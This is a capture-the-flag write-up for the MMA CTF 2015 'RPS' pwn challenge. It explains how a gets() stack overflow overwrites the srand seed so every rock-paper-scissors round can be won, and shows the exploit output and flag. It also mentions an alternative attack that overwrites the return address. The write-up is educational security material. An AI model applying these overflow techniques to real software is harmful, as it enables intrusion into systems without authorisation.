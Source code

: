 # MMM-CTF-2015: RPS

**Category:** Pwn
**Points:** 50
**Solves:** 171
**Description:**

> Win 50 games in a row!
>
> `nc milkyway.chal.mmactf.link 1641`
>
> [rps.7z](rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e)

## Write-up

This writeup is based on following writeups:

* [b01lers](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/) (Common understanding)
* <http://iamlazlow.blogspot.com/2015/09/mma-ctf-2015-rps-pwn-warmup.html> (C Code)
* <http://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/> (IDA decompiled binary, ctypes and pwntools usage)
* <https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/> (Alternative solution)
* <http://trich.im/?p=47> (IDA decompiled binary, Alternative solution)
* <http://tungpun.github.io/blog/2015/09/09/write-up--mmactf-2015-pwn-rps/>
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/09/08/005012) (Reversed Source code in C)
* <https://gist.github.com/Bono-iPad/42434cdfff084c637d3b>

### Meta

Keywords:

* Stack Buffer Overflow (`sbo`) in `gets`
* Pseudo Random Number Generator (`prng`)
* Alternative solutions

We are given a 7z archive that contains a x86-64bit non-stripped ELF for Linux:

```bash
$ file rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e
rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e: 7-zip archive data, version 0.3
$ 7z x rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e -oout

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,1 CPU)

Processing archive: rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e

Extracting  rps/rps
Extracting  rps

Everything is Ok

Folders: 1
Files: 1
Size:       9664
Compressed: 2944
$ cd out/rps/
$ file rps
rps: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=8811962c746e1d068a5fa5b4deb7cb043c30146f, not stripped
```

Running it:

```bash
$ ./rps 
What's your name: cheater
Hi, cheater
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]R
Rock-Scissors
You win!!
Game 2/50
Rock? Paper? Scissors? [RPS]R
Rock-Paper
You lose
```

Looks like we have to win 50 rounds of Rock-Paper-Scissors to (maybe) get the flag!

Let's run it with `ltrace -f`:

```bash
$ ltrace -f ./rps 
[pid 2700] __libc_start_main(0x400806, 1, 0x7fff602da5a8, 0x400af0 <unfinished ...>
[pid 2700] fopen("/dev/urandom", "r")                 = 0x251e010
[pid 2700] fread(0x7fff602da4a0, 4, 1, 0x251e010)     = 1
[pid 2700] fclose(0x251e010)                          = 0
[pid 2700] printf("What's your name: ")               = 18
[pid 2700] fflush(0x7f5b0219a400What's your name: )                     = 0
[pid 2700] gets(0x7fff602da470, 0x7f5b0219b9e0, 0, -1cheater
) = 0x7fff602da470
[pid 2700] printf("Hi, %s\n", "cheater"Hi, cheater
)              = 12
[pid 2700] puts("Let's janken"Let's janken
)                       = 13
[pid 2700] fflush(0x7f5b0219a400)                     = 0
[pid 2700] srand(0x24e2002, 0x7f5b0219b9e0, 0, -1)    = 0
[pid 2700] printf("Game %d/50\n", 1Game 1/50
)                  = 10
[pid 2700] printf("Rock? Paper? Scissors? [RPS]")     = 28
[pid 2700] fflush(0x7f5b0219a400Rock? Paper? Scissors? [RPS])                     = 0
[pid 2700] getchar(1, 0x7f5b0219b9e0, 0, -1R
)          = 82
[pid 2700] rand(0, 0x7f5b0219b9f0, 82, -1)            = 0x3d958a93
[pid 2700] printf("%s-%s\n", "Rock", "Rock"Rock-Rock
)          = 10
[pid 2700] puts("Draw"Draw
)                               = 5
[...]
[pid 2700] puts("You lose"You lose
)                           = 9
[pid 2700] fflush(0x7f5b0219a400)                     = 0
[pid 2700] +++ exited (status 1) +++
```

We notice:

* After opening `/dev/urandom` with `fopen`, `4` bytes from it are read into the stack at `0x7fff602da4a0`
* Our username input is read with `gets`, which hints at a Stack Buffer Overflow
* Before the first round starts, `srand` is called.

Disassembling it with `radare2` (`main` is long, only showing part of it):

![](./part-main.png)

We see the following:

* At `0x00400825` the address `rbp-local_4` (`local_4` is `rbp-0x20`) is stored into `rax` with `lea` (load effective address)
* `fread` is uses this address as the first parameter (`mov rdi, rax`, `rdi` here is by calling convention the first parameter), which means it stores the read data into a buffer located at the address
* `gets` reads our input into `rbp-local_10`, with `local_10`==`0x50`, so below the buffer address of the previous `fread` buffer
* `srand` uses the `fread` buffer as seed

Using `IDA`, you can generate decompiled C source code representing the binary as seen in [this](https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/) or [this writeup](http://trich.im/?p=47). [This Japanese writeup](http://charo-it.hatenablog.jp/entry/2015/09/08/005012) even created very readable C source code.

Looking at the decompiled binary, we see that we should overwrite the `srand` seed with our username input.
We do this, because setting the same seed for `srand`, a "bad" Pseudo Random Number Generator, causes `rand` to generate the same random number sequences  - and thus we can predict the outcome and win the game!

As [this writeup](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/) suggests, the values for `R`ock, `P`aper or `S`cissors are `0`, `1` and `2` (output of `rand() % 3`).

The offset differences between our input buffer and the `srand` buffer are `0x50-0x20=0x30`=48 bytes. This means providing `4` bytes after a `48` string payload overwrites the seed value.

We now just have to pre-calculate sequences by either writing a C program, as in [this writeup](http://iamlazlow.blogspot.de/2015/09/mma-ctf-2015-rps-pwn-warmup.html) or use the `ctypes` module in python as in [this](https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/) or [this writeup](https://gist.github.com/Bono-iPad/42434cdfff084c637d3b).

[This python script](solve.py) uses the latter solution:

```bash
$ p solve.py  
[+] Opening connection to localhost on port 6666: Done
[+] Recieving all data: Done (120B)
[*] Closed connection to localhost port 6666
What's your name: Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]Paper-Rock
You win!!
Game 2/50
Rock? Paper? Scissors? [RPS]Paper-Rock
You win!!
Game 3/50
[...]
Game 50/50
Rock? Paper? Scissors? [RPS]Rock-Scissors
You win!!
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????!!!!
MMA{treed_three_girls}
```

The flag is `MMA{treed_three_girls}`.

PS: Another alternative solution such as in [this](https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/) or [this writeup](http://trich.im/?p=47) overwrite the return address `RIP` with the address `0x00400aa4` (or rather some instructions above, since this address contains a `0x0a` byte, forcing `gets` to stop reading) that opens the flag file `flag.txt`, reads the flag and prints it to the user.

## Other write-ups and resources

* [b01lers](https://b01lers.net/challenges/MMA%20CTF%202015/RPS%20%28rock%20paper%20scissors%29/58/)
* <http://iamlazlow.blogspot.com/2015/09/mma-ctf-2015-rps-pwn-warmup.html>
* <https://0x90r00t.com/2015/09/08/mma-2015-pwnwarmup-rps-write-up/>
* <http://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/>
* <https://jkrshnmenon.wordpress.com/2015/09/09/mmactf15-rps-write-up/>
* <https://ctf-team.vulnhub.com/mma-1st-2015-rps/>
* <http://trich.im/?p=47>
* <http://tungpun.github.io/blog/2015/09/09/write-up--mmactf-2015-pwn-rps/>
* [Japanese](http://charo-it.hatenablog.jp/entry/2015/09/08/005012)
* [Japanese](http://mage-ctf-writeup.blogspot.de/2015/09/mma-ctf-1st-2015.html)
* [Japanese](https://gist.github.com/Bono-iPad/42434cdfff084c637d3b)
* [Japanese](http://kusano-k.hatenablog.com/entry/2015/09/08/014315)
* [Russian](http://countersite.org/articles/reverse_engineering/31-rps-pwn-mmactf-2015-write-up.html)
* [Polish](http://forum.4programmers.net/Spolecznosc/258069-writeup_mma_ctf_2015)
